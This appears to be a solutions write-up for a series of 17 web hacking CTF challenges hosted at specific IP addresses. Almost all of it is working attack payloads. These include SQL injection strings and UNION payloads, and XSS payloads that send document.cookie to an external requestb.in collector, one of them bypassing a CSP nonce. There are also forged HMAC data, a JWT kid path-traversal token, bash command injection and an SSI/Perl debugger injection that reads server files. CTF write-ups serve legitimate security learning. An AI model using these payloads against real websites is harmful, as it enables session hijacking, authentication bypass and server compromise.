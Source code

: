 # 1. sqli
http://188.166.248.215/

<details>
<summary>Solution</summary>
<code>0||1</code>
</details>

# 2. sqli
http://188.166.248.215/ce4dd79d-971b-40d3-a4e6-2041da6bcc64/

<details>
<summary>Solution</summary>
<code>'or'1</code>
</details>

# 3. sqli
http://188.166.248.215/85998adb-2109-45d2-aec9-6e9d995e6d47/

<details>
<summary>Solution</summary>

<code>'||1-- </code>

</details>

# 4. sqli
http://188.166.248.215/f3af878d-d7cd-47c0-b98e-074cf82d30d6/

<details>
<summary>Solution</summary>
<code>0-- '||1-- "||1-- </code>
</details>

# 5. xss
http://139.59.127.138/8eb7a8a1-2e0d-4ff7-a91b-8686ff229c28/

<details>
<summary>Solution</summary>

```
<img src=x onerror='src="http://requestb.in/1bikbhd1?x="+encodeURIComponent(document.cookie)'>
```

</details>



# 6. sqli
http://139.59.127.139/dbd41354-9645-4e87-bbb8-27f5db622a67/

<details>
<summary>Solution</summary>

username: `\`  
password: `||1-- `

</details>


# 7. xss
http://139.59.127.142/39b21eea-6168-431b-81b5-23252749917e/

<details>
<summary>Solution</summary>

js:
`');}location='http://requestb.in/1bikbhd1?x='+encodeURIComponent(document.cookie);{{'*/'/*`

url:
http://139.59.127.142/39b21eea-6168-431b-81b5-23252749917e/?js=')%3B%7Dlocation%3D'http%3A%2F%2Frequestb.in%2F1bikbhd1%3Fx%3D'%2BencodeURIComponent(document.cookie)%3B%7B%7B'*%2F'%2F*

</details>

# 8. xss
http://139.59.127.141/8e11d478-be5d-4f05-a27b-f3bff7b84168/

`?url` query parameter is vulnerable to xss. CSP rules are:  
`Content-Security-Policy:default-src 'none'; script-src 'nonce-disabled';`

<details>
<summary>Solution</summary>
<p>

url param:

```
pwn"><script nonce="disabled">location="http://requestb.in/1bikbhd1?y="+encodeURIComponent(document.cookie)</script><p x="
```

http://139.59.127.141/8e11d478-be5d-4f05-a27b-f3bff7b84168/?url=pwn%22%3E%3Cscript%20nonce%3D%22disabled%22%3Elocation%3D%22http%3A%2F%2Frequestb.in%2F1bikbhd1%3Fy%3D%22%2BencodeURIComponent(document.cookie)%3C%2Fscript%3E%3Cp%20x%3D%22

</p>
</details>

# 9. sqli (triple short)
http://139.59.127.144/d25d0cb4-90c3-465d-8733-b50229371377/

<details>
<summary>Solution</summary>
<p>

```
"="'='
```

</p>
</details>


# 10. sqli (12 random short)
http://139.59.127.144/9fc91798-4c0f-4e23-ab10-32e03e77ac95/

<details>
<summary>Solution</summary>
<p>

`5=6=0='&&0 union select char(115,117,99,99,101,115,115)from dual where 1||6='||5="&&0 union select char(115,117,99,99,101,115,115) from dual where 1||5="&&0 union select char(115,117,99,99,101,115,115) from dual where 1||8`

`5=6=0='&&0 union select char(115,117,99,99,101,115,115)from dual where 1||'||"&&0 union select char(115,117,99,99,101,115,115) from dual where 1||"&&0 union select char(115,117,99,99,101,115,115) from dual where 1||8`

`0='&&0 union select char(0x73756363,6648691)from dual where 1||'"&&0 union select char(0x73756363,6648691)from dual where 1||"&&0 union select char(0x73756363,6648691)from dual where 1||0`

`'union select char(0x73756363,6648691)from dual where!'"union select char(0x73756363,6648691)from dual where 1||"=3 union select char(0x73756363,6648691)from dual where 1||0`

`'union select char(0x73756363,6648691)-- '"union select char(0x73756363,6648691)-- "=3 union select char(0x73756363,6648691)-- `

`'union select char(0x73756363,6648691)-- '"union select'success'-- "=3 union select'success'-- `

`'union select char(0x73756363,6648691)#'"union select'success'#"=3 union select'success'#`

`5=6 union select char(0x73756363,6648691)-- '=7 union select'success'-- "=7 union select'success'-- `

`0=3 union select char(0x73756363,6648691)-- 'union select'success'-- "union select'success'-- `

`0=3 union select char(0x73756363,6648691)#'union select'success'#"union select'success'#`

`@ union select char(0x73756363,6648691)#'union select'success'#"union select'success'#`

`@/*'/*"/**/union select'success'#`

```
@#'#"
union select'success'#
```

</p>
</details>

# 11. ruby hmac token 1
http://139.59.127.145/db55fc7a-c615-449a-b86e-bde4df2ed70c/

There is source leak by forcing some ruby error, for example utf8 decoding error. We need to sign a malformed string, but that's not a problem.

http://139.59.127.145/db55fc7a-c615-449a-b86e-bde4df2ed70c/?data=aaaaaaaaa%FFb%20%20%20%20%20%20%20%20%20GUEST%20%20%20%20%20&hmac=ca9a9653f330c29dc8f797c08d6f23a16e17c2132e993b7981a1ad330723b655

```
  end

  generated_hmac = OpenSSL::HMAC.hexdigest(OpenSSL::Digest.new('sha256'), KEY, params["data"])
  unless params["hmac"] == generated_hmac
    return "go away hacker"
  end

  @first_name, @last_name, @role = params["data"].scan(/.{10}/).map(&:rstrip)

  if @role == "ADMIN"
    content_type :txt
    return File.read("#{__dir__}/../next_challenge_info.txt")
  else
    @title = "User Info"
    erb :index
```

<details>
<summary>Solution</summary>
<p>

Post data:  
```
first_name[]=1&first_name[]=2&first_name[]=3&first_name[]=444ADMIN++++++++++++++&first_name[]=5&first_name[]=6&first_name[]=7&first_name[]=8&first_name[]=9&first_name[]=0&last_name=ADMIN
```

</p>
</details>

# 12. ruby hmac token 2
http://139.59.127.146/ffd88992-6cc1-4733-bcb5-39dd5b1603a8/

<details>
<summary>Hint</summary>
<p>
This time there is no source, previous exploit doesn't work. This time they capitalized all the input.
</p>
</details>

<details>
<summary>Solution</summary>
<p>

Assume they cut the length before capitalizing and pad afterwards. Unicode anyone? There are codepoints that expand to
more codepoints when uppercased.

ftp://ftp.unicode.org/Public/UCD/latest/ucd/SpecialCasing.txt

```
first_name=aa%1F%B2%E1%BE%B7%E1%BE%B7%E1%BE%B7%E1%BE%B7%E1%BE%B7&last_name=admin+++++
```

</p>
</details>

# 13. jwt bypass
http://139.59.112.116/dddace4a-d619-4204-bb15-df6c0a24d6de/

https://github.com/jwt/ruby-jwt

<details>
<summary>Solution</summary>
<p>

kid was a local file

```
var kid = "../../../etc/magic";
var alg = "HS256";
var hdr = $@"{{""typ"":""JWT"",""alg"":""{alg}"",""kid"":""{kid}""}}";
var body = $@"{{""user"":""admin""}}";
```

```eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6Ii4uLy4uLy4uL2V0Yy9tYWdpYyJ9.eyJ1c2VyIjoiYWRtaW4ifQ.KHvUjYMwH49GkMBB1FyyHJjX8J1kt79VAYadOpLDlMM```

</p>
</solution>

# 14. sqli and php password check
http://139.59.127.147/e08720e1-df29-46cb-b1c8-83a32e9083df/

<details>
<summary>Solution</summary>
<p>

```
sqli
database leak with usernames and password hashes
crackstation: ripemd160

sql = "' UNION SELECT * FROM (SELECT '{}') c LEFT JOIN (SELECT '{}') a ON 1 LEFT JOIN (SELECT 0) b on 1 #".format(username, ripemd160(password).hex())
print(make_query(sql, password))
```

</p>
</solution>

# 15. bash injection
http://139.59.127.148/ed932765-1a3a-467a-be5b-e11dc1fc542d/

<details>
<summary>Solution</summary>
<p>

```$( pwd | cut -c -9 )$( ls -S -r .. )```

</p>
</solution>

# 16. captcha
http://188.166.183.58/96e5c0bd-7f33-4188-94f0-89b3094bd6af/

captcha madness with no repeating chars

<details>
<summary>Authors solution</summary>
<p>
http://139.59.127.149/e3cb1461-411d-4281-9c62-80b3c5e83cc9/captcha.php?id=q%27+unioN%0AselEct%0BmId(@fLag%0CFrOM%0D5)%23
</p>
</details>


# 17. echo service
http://139.59.127.150/1d0f2acf-a96b-4e9c-a70a-92ba42f70bc2/

<details>
<summary>Hint</summary>
<p>
By sending an invalid requests it replies with an error page redirecting to `/index.shtml`. What is `shtml`?

With some investigation we found that the service is in Perl: `index.pl`.
Somehow we found out there is a `/next_challenge` file on the filesystem. Don't remember how.

</p>
</details>

<details>
<summary>Solution</summary>
<p>

```
<!--#set var="PERL5OPT" value="-d" --><!--#set var="PERL5DB" value="BEGIN { require 'perl5db.pl' } END { print `cat /ne*` }" --><!--#include virtual="index.pl" onerror="index.pl"-->
```

http://139.59.127.150/1d0f2acf-a96b-4e9c-a70a-92ba42f70bc2/?name=%3C!--%23set%20var=%22PERL5OPT%22%20value=%22-d%22%20--%3E%3C!--%23set%20var=%22PERL5DB%22%20value=%22BEGIN%20{%20require%20%27perl5db.pl%27%20}%20END%20{%20print%20`cat%20/ne*`%20}%22%20--%3E%3C!--%23include%20virtual=%22index.pl%22%20onerror=%22index.pl%22--%3E

</p>
</details>
